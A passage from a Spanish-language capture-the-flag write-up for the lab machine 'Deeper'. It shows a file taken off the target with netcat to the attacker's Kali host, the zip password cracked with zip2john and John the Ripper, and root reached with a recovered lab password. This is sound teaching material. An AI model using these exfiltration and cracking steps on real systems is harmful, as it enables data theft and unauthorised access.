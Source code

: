 Curioso, vemos un fichero **`ZIP`** con el nombre de **`root`**. Vamos a llevarnos este fichero a nuestra máquina para poder extraerlo ahí:

```sh
bob@deeper:~$ nc -w 3 192.168.1.107 1234 < root.zip
```

```sh
┌──(root㉿kali)-[~/…/VMs/HMV/Deeper/content]
└─# nc -l -p 1234 > root.zip
```

Ahora sí, vamos a extraerlo con **`unzip`**:

```sh
┌──(root㉿kali)-[~/…/VMs/HMV/Deeper/content]
└─# unzip root.zip
Archive:  root.zip
[root.zip] root.txt password:
```

Pues no, tal vez aún no podamos extraerlo, necesitamos una contraseña que no tenemos. No pasa nada, podemos utilizar **`zip2john`** para convertirlo en un **`hash`** que **`JohnTheRipper`** entienda y, mediante fuerza bruta, obtener la contraseña:

```sh
┌──(root㉿kali)-[~/…/VMs/HMV/Deeper/content]
└─# zip2john root.zip > hash.txt
ver 1.0 efh 5455 efh 7875 root.zip/root.txt PKZIP Encr: 2b chk, TS_chk, cmplen=33, decmplen=21, crc=2D649941 ts=BA81 cs=ba81 type=0
```

```sh
┌──(root㉿kali)-[~/…/VMs/HMV/Deeper/content]
└─# john hash.txt -w=/usr/share/wordlists/rockyou.txt       
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bob              (root.zip/root.txt)     
1g 0:00:00:00 DONE (2023-09-20 17:21) 50.00g/s 1228Kp/s 1228Kc/s 1228KC/s christal..280789
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Como vemos hemos obtenido la contraseña del fichero mediante fuerza bruta, aunque con esta contraseña que tenía la podríamos haber adivinado. Vamos a extraer el fichero y ver qué contiene:

```sh
┌──(root㉿kali)-[~/…/VMs/HMV/Deeper/content]
└─# unzip root.zip
Archive:  root.zip
[root.zip] root.txt password: bob
 extracting: root.txt
```

```sh
┌──(root㉿kali)-[~/…/VMs/HMV/Deeper/content]
└─# cat root.txt
root:IhateMyPassword
```

Bueno, el usuario más importante y no hay ni una mísera cadena en **`Base64`**, iniciemos sesión como **`root`**:

```sh
bob@deeper:~$ su root
Password: IhateMyPassword
root@deeper:/home/bob#
```

¡Enhorabuena! Hemos obtenido el **`contral total`** de la máquina. ¡Qué fácil!
